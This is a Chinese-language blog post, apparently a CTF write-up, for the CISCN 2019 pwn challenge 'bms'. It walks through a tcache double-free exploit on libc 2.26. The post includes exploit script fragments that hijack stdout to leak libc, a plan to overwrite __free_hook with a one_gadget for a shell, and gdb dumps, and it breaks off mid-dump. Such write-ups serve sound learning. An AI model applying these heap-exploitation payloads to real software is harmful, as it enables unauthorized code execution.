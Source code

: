 ```yaml
---
layout: post
title: "csicn2019国赛pwn --- bms"
date: 2019-04-25
categories: jekyll update
---
```

### csicn2019国赛pwn --- bms
这题居然是tcache，一堆2.23的libc之后，来了个2.26。好吧，之前有做过这种结构体放在heap上的题，也是tcache，一时没反应过来，之后还得去补补tcache的题啊。。

利用思路：这道题的主要漏洞在于利用tcache机制并且free后没有清零造成double free可以实现任意地址写的操作，主要难点在于泄露libc。远端环境是libc2.26，可以使用tcache攻击，利用double free把chunk分配在stdout附近，使tcache bin指向`_IO_2_1_stdout_`。修改结构体泄露libc，再次使用tcache攻击分配chunk到`__free_hook`，劫持为`one_gadget`，调用free获得shell。

难点：tcache机制，利用IO_FILE泄露libc

### 前置知识
+ IO_FILE相关源码：https://code.woboq.org/userspace/glibc/libio/fileops.c.html
+ IO_FILE学习记录：(待填)
+ tcache 源码分析及利用思路（推荐阅读）：http://p4nda.top/2018/03/20/tcache/
+ http://tukan.farm/2017/07/08/tcache/
+ http://ftp.gnu.org/gnu/glibc/
### tcache学习
+ `tcache`指针指向的是`user_data`而不是`heap_header`
+ 在上面p4nda写的tcache学习中，利用方式的`house_of_spirit`提到`当tcache存在时，释放堆块没有对堆块的前后堆块进行合法性校验，只需要构造本块对齐就可以成功将任意构造的堆块释放到tcache中，而在申请时，tcache对内部大小合适的堆块也是直接分配的，并且对于在tcache内任意大小的堆块管理方式是一样的，导致常见的house_of_spirit可以延伸到smallbin。`正是如此本题可以利用double free(tcache链表劫持)再分配来进行任意地址写。
### 调试过程：
首先通过double free来劫持tcache链表：
```
(0x90)   tcache_entry[7](1): 0x97c4c0 --> 0x602020 --> 0x7fbd97271760 --> 0xfbad2887 (invaild memory)
```
然后当分配到0x602020地方的时候需要修改一个合适的值，我尝试过修改`\x20`或者`\x10`都是没问题的，重点在后面修改`0x7fbd97271760 `的stdout结构体时候的问题，关于为什么这样构造，为什么这样构造就可以泄露出里libc了，后面再说。
```
create(0x80,'aaaa\n','aaaa\n')#0
free(0)
free(0)
create(0x80,p64(0x602020)*2 + "\n","aaaa\n")#1
create(0x80,"\n","aaaa\n")#2

pause()
log.info("hjack stdout struct")
fake_stdout = p64(0xfbad1800) + p64(0)*3 + "\x00" 
create(0x80,"\x20","aaaa\n")#3 
create_null_puts(0x80,fake_stdout,"aaaa\n")#4
```
下面是打印IO_FILE的结构体的一些信息
```
# 低位覆盖后的结果，
gdb-peda$ p *(struct _IO_FILE_plus *)0x00007ffff7bb1720
$1 = {
  file = {
    _flags = 0xf7bb0780, 
    _IO_read_ptr = 0x0, 
    _IO_read_end = 0x0, 
    _IO_read_base = 0x0, 
    _IO_write_base = 0x0, 
    _IO_write_ptr = 0x0, 
    _IO_write_end = 0x0, 
    _IO_buf_base = 0x7ffff7bad2a0 <_IO_file_jumps> "", 
```